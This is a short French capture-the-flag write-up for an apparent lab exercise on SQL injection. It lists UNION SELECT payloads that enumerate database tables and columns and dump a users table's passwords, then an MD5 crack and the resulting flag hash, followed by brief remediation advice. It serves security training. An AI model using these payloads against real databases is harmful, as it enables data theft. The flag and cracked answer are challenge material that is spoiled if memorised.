 # Recherches

1. Envoi du formulaire vide retourne une erreur MySQL
2. Ecrire un exploit afin de lister toutes les tables présentes
   ```
   1 UNION SELECT table_schema, table_name FROM information_schema.tables
   ```
3. Lister les colonnes
   ```
   1 UNION SELECT TABLE_NAME, COLUMN_NAME FROM information_schema.columns
   ```
4. Afficher le mot de passe des utilisateurs
   ```
   1 UNION SELECT countersign, Commentaire FROM users
   ```
5. Le commentaire indique quel utilisateur correspond au flag
6. `md5(5ff9d0165b4f92b14994e5c685cdce28) == "FortyTwo"`
7. `FortyTwo` => `fortytwo`
8. `sha256(fortytwo) = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

> FLAG: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

# Explications

Les failles sql sont courantes dans les applications qui ne sécurisent pas leurs entrées.

# Corrections

Pour eviter les failles sql plusieurs choses sont necessaires:
     - mises a jours frequentes de la db SQL
     - sanitize les entrees utilisateurs

